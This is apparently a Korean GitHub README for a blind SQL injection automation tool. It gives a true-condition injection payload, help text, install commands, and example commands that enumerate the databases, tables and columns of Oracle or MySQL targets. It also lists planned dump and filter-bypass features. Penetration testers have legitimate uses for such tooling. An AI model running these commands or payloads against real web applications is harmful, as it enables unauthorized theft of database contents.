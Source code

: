 # Blind SQL Injection 자동화 도구
**blind sqli 포인트 발견 시, BurpSuite 요청 데이터를 그대로 이용해서 데이터 출력 자동화**<br>
취약한 파라미터에 True 조건식 입력 후 Brup 요청 값 그대로 REQUEST_STRING 변수에 추가 (URL Decode 필요없음)<br>
**ex)** True 조건식 : `' and 1=1 -- `<br>
  <img src="https://github.com/kazal92/blind_sqli/blob/main/images/request_string.png" alt="설명" style="width:60%;height:auto;"><br><br>
결과 데이터 Console에 텍스트로 출력되며 아래와 같이 .db 파일로도 저장 가능함<br>
<img src="https://github.com/kazal92/Code/blob/main/images/result_db.png" alt="설명" style="width:40%;height:auto;">

## HELP
```
usage: sqli.py [-h] [-s SCHEMA] [-p PARAMETER] [-d RESULT_DB] [-D SELECT_DB] [-T SELECT_TABLE] [-C SELECT_COLUMN] [--dbms DBMS] [--proxy PROXY] (--basic | --dbs | --tables | --columns)

optional arguments:
  -h, --help        show this help message and exit
  -s SCHEMA         http? https? EX) -s HTTP
  -p PARAMETER      target param -EX title
  -d RESULT_DB      Database name for storing results EX) -d result_db.db
  -D SELECT_DB      select DB EX) -D bWAPP
  -T SELECT_TABLE   select Table EX) -T 'USERS', 'EXAMPLE_TABLE' # 싱글쿼터 없어도됨
  -C SELECT_COLUMN  select Column EX) -C 'blog', 'heroes'# 싱글쿼터 없어도됨
  --dbms DBMS       SELECT DBMS : MySQL, Oracle, MSSQL, PostgreSQL EX) oracle
  --proxy PROXY     Use a proxy to connect to the target URL EX) 127.0.0.1:8080
  --basic           Basic info extraction
  --dbs             Enumerate DBMS databases
  --tables          Enumerate Tables
  --columns         Enumerate columns
```
## 설치
```
git clone https://github.com/kazal92/blind_sqli.git  
pip install -r requirements.txt  
```
## 사용 예시
**기본 정보 추출:**  
`python sqli.py -s http --dbms oracle -p username -d oracle_result.db --basic `<br><br>
  <img src="https://github.com/kazal92/Code/blob/main/images/console_result_basic.png" alt="설명" style="width:80%;height:auto;"><br><br>
**DB 목록 추출:**  
`python sqli.py -s http --dbms oracle -p username -d oracle_result.db --dbs `<br><br>
<img src="https://github.com/kazal92/Code/blob/main/images/console_result_dbs.png" alt="설명" style="width:60%;height:auto;"><br><br>

**테이블 목록 추출:**  
`python sqli.py -s http --dbms oracle -p username -d oracle_result.db --tables -D C##KAZAL92`<br><br>
<img src="https://github.com/kazal92/Code/blob/main/images/console_result_tables.png" alt="설명" style="width:70%;height:auto;"><br><br>
**컬럼 목록 추출:**  
`python sqli.py -s http --dbms oracle -p username -d oracle_result.db --columns -D C##KAZAL92 -T "'USERS', 'EXAMPLE_TABLE'"`<br><br>
<img src="https://github.com/kazal92/Code/blob/main/images/console_result_columns.png" alt="설명" style="width:70%;height:auto;"><br><br>

## 추가될 기능
1. 다른 Content-Type 구현 (json, xml)
2. DB, TABLE, COLUMN 외 데이터 출력 구현
3. 다른 데이터베이스 페이로드 생성 # !! MYSQL, ORACLE 완료
5. --dump 덤프 옵션 추가
6. 요청 값 외부 파일에서 받아오기 기능
7. 우회 패턴 추가
등등
